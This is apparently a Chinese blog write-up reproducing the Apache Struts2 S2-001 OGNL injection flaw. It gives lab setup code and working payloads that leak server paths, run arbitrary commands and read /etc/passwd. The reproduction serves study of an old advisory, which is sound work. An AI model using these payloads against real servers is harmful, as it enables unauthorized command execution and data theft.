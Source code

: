 ```yaml
---
title: Struts2Vuls之S2-001漏洞复现与简要分析
tags:
  - Struts2
  - RCE
date: 2018-03-28 22:34:58
toc: true
---
```


最近经历了几次面试，深觉在企业中，java安全是十分受重视的，于是打算对java安全进行深入学习，本系列是对Struts2的漏洞进行分析与复现，写的不好欢迎大家指出问题，本文所有源码与poc&exp：https://github.com/xishir/Struts2Vuls/tree/master/S2-001
<!-- more -->

# 漏洞摘要
```
官方链接：https://cwiki.apache.org/confluence/display/WW/S2-001
官方概述：Remote code exploit on form validation error
影响版本：Struts 2.0.0 - Struts 2.0.8
修复摘要：数据 re-display 时禁止执行 OGNL 表达式
```

# 简要原理
在默认配置下，如果用户所提交的表单出现`验证错误`，后端会对用户的输入进行`解析处理`，然后返回并`显示处理结果`。  举个例子，当你提交的登录表单为`username=xishir&password=%{1+1}`时，后端验证登录失败后会返回登录界面并显示你的输入，这时password字段中的OGNL表达式已经被解析处理过了，所以会显示`%{1+1}`的解析结果`2`，从而可以构造payload进行RCE。

# 环境搭建
### 下载struts-2.0.1
地址：http://archive.apache.org/dist/struts/binaries/struts-2.0.1-all.zip
### 创建web工程
目录结构
![](/img/s2/s2-001-1.png)
这里我是用的是MyEclipse，创建一个web工程，然后将struts-2.0.1中的几个jar包导入并新建如下几个文件
web.xml
```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://xmlns.jcp.org/xml/ns/javaee" xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd" id="WebApp_ID" version="3.1">
    <display-name>S2-001 Example</display-name>
    <filter>
        <filter-name>struts2</filter-name>
        <filter-class>org.apache.struts2.dispatcher.FilterDispatcher</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>struts2</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
    <welcome-file-list>
        <welcome-file>index.jsp</welcome-file>
    </welcome-file-list>
</web-app>
```

index.jsp
```html
<%@ page language="java" contentType="text/html; charset=UTF-8"
    pageEncoding="UTF-8"%>
<%@ taglib prefix="s" uri="/struts-tags" %>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>S2-001</title>
</head>
<body>
<h2>S2-001 Demo</h2>
<p>link: <a href="https://cwiki.apache.org/confluence/display/WW/S2-001">https://cwiki.apache.org/confluence/display/WW/S2-001</a></p>
<s:form action="login">
	<s:textfield name="username" label="username" />
	<s:textfield name="password" label="password" />
	<s:submit></s:submit>
</s:form>
</body>
</html>
```

welcome.jsp
```html
<%@ page language="java" contentType="text/html; charset=UTF-8"
    pageEncoding="UTF-8"%>
<%@ taglib prefix="s" uri="/struts-tags" %>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>S2-001</title>
</head>
<body>
<p>Hello <s:property value="username"></s:property></p>
</body>
</html>
```

struts.xml
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE struts PUBLIC
    "-//Apache Software Foundation//DTD Struts Configuration 2.0//EN"
    "http://struts.apache.org/dtds/struts-2.0.dtd">
<struts>
	<package name="S2-001" extends="struts-default">
		<action name="login" class="com.demo.action.LoginAction">
			<result name="success">welcome.jsp</result>
			<result name="error">index.jsp</result>
		</action>
	</package>
</struts>
```

com.demo.action.LoginAction.java
```java
package com.demo.action;

import com.opensymphony.xwork2.ActionSupport;

public class LoginAction extends ActionSupport {
	private String username = null;
	private String password = null;

	public String getUsername() {
		return this.username;
	}

	public String getPassword() {
		return this.password;
	}

	public void setUsername(String username) {
		this.username = username;
	}

	public void setPassword(String password) {
		this.password = password;
	}

	public String execute() throws Exception {
		if ((this.username.isEmpty()) || (this.password.isEmpty())) {
			return "error";
		}
		if ((this.username.equalsIgnoreCase("admin"))
				&& (this.password.equals("admin"))) {
			return "success";
		}
		return "error";
	}
}
```

# 漏洞利用
### POC:
```
username=xishir&password=%{1+1}
```
![](/img/s2/s2-001-2.png)

### EXP:
获取tomcat执行路径：
```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

获取Web路径：
```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

执行任意命令：
```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```
带参数的命令：`new java.lang.String[]{"cat","/etc/passwd"}`
![](/img/s2/s2-001-3.png)

# 参考链接
[https://cwiki.apache.org/confluence/display/WW/S2-001](https://cwiki.apache.org/confluence/display/WW/S2-001)
[http://rickgray.me/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/review-struts2-remote-command-execution-vulnerabilities.html)
[https://github.com/vulhub/vulhub/tree/master/struts2/s2-001](https://github.com/vulhub/vulhub/tree/master/struts2/s2-001)
[https://chybeta.github.io/2018/02/06/【struts2-命令-代码执行漏洞分析系列】S2-001/](https://chybeta.github.io/2018/02/06/【struts2-命令-代码执行漏洞分析系列】S2-001/)
